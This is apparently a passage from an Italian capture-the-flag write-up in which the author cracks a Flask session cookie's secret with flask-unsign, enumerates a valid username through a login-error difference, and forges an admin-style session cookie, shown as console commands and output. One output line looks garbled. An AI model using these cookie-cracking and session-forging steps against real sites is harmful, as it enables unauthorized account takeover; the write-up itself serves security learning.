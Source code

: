 ```console
└─$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkIn0.YqxyAw.wXovkW8KYcLOT3UYdJXyUxTIxEU'
[*] Session decodes to: {'logged_in': True, 'username': 'asd'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2048): -----BEGIN PRIVATE KEY-----***
[+] Found secret key after 17152 attemptskwanghlm/oau
'secret123'
```

Arrivati a questo punto bisogna capire qual è lo username corretto affinchè si possano avere delle informazioni in più. Per capirlo, ho notato che, nel momento in cui si effettua il login con username corretto e con password errata, il server risponde con *Invalid login*; quindi ho creato un [bruteforce](bruteforce.py) che tiene conto di tale considerazione.

```console
└─$ python3 brute.py
[+] USER FOUND: blue
```

Dopo aver trovato lo username si va a forgiare il nuovo cookie:

```console
└─$ flask-unsign --sign --secret "secret123" --cookie "{'logged_in': True, 'username': 'blue'}"
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yqxgvw.BtypiXqFwCwuppwMwLjszYU90N4
```

Si inserisce il nuovo cookie, si ricarica la pagina e si ha il login come *blue* e si vedono 2 note:

1. 
<p align="center">
  <img src="Images/nota1.png" />
</p>

2. 
<p align="center">